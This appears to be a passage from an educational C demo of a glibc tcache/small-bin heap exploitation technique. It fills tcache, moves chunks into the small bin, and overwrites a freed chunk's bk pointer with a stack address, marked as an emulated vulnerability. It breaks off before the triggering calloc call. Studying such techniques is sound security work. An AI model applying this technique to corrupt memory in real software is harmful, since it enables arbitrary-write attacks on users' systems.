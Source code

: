    ```c
   
       // stack_var emulate the fake_chunk we want to alloc to
       fprintf(stderr, "Stack_var emulates the fake chunk we want to alloc to.\n\n");
       fprintf(stderr, "First let's write a writeable address to fake_chunk->bk to bypass bck->fd = bin in glibc. Here we choose the address of stack_var[2] as the fake bk. Later we can see *(fake_chunk->bk + 0x10) which is stack_var[4] will be a libc addr after attack.\n\n");
   
       stack_var[3] = (unsigned long)(&stack_var[2]);
   
       fprintf(stderr, "You can see the value of fake_chunk->bk is:%p\n\n",(void*)stack_var[3]);
       fprintf(stderr, "Also, let's see the initial value of stack_var[4]:%p\n\n",(void*)stack_var[4]);
       fprintf(stderr, "Now we alloc 9 chunks with malloc.\n\n");
   
       //now we malloc 9 chunks
       for(int i = 0;i < 9;i++){
           chunk_lis[i] = (unsigned long*)malloc(0x90);
       }
   
       //put 7 tcache
       fprintf(stderr, "Then we free 7 of them in order to put them into tcache. Carefully we didn't free a serial of chunks like chunk2 to chunk9, because an unsorted bin next to another will be merged into one after another malloc.\n\n");
   
       for(int i = 3;i < 9;i++){
           free(chunk_lis[i]);
       }
   
       fprintf(stderr, "As you can see, chunk1 & [chunk3,chunk8] are put into tcache bins while chunk0 and chunk2 will be put into unsorted bin.\n\n");
   
       //last tcache bin
       free(chunk_lis[1]);
       //now they are put into unsorted bin
       free(chunk_lis[0]);
       free(chunk_lis[2]);
   
       //convert into small bin
       fprintf(stderr, "Now we alloc a chunk larger than 0x90 to put chunk0 and chunk2 into small bin.\n\n");
   
       malloc(0xa0);//>0x90
   
       //now 5 tcache bins
       fprintf(stderr, "Then we malloc two chunks to spare space for small bins. After that, we now have 5 tcache bins and 2 small bins\n\n");
   
       malloc(0x90);
       malloc(0x90);
   
       fprintf(stderr, "Now we emulate a vulnerability that can overwrite the victim->bk pointer into fake_chunk addr: %p.\n\n",(void*)stack_var);
   
       //change victim->bck
       /*VULNERABILITY*/
       chunk_lis[2][1] = (unsigned long)stack_var;
       /*VULNERABILITY*/
   
       //trigger the attack
       fprintf(stderr, "Finally we alloc a 0x90 chunk with calloc to trigger the attack. The small bin preiously freed will be returned to user, the other one and the fake_chunk were linked into tcache bins.\n\n");
   
   ```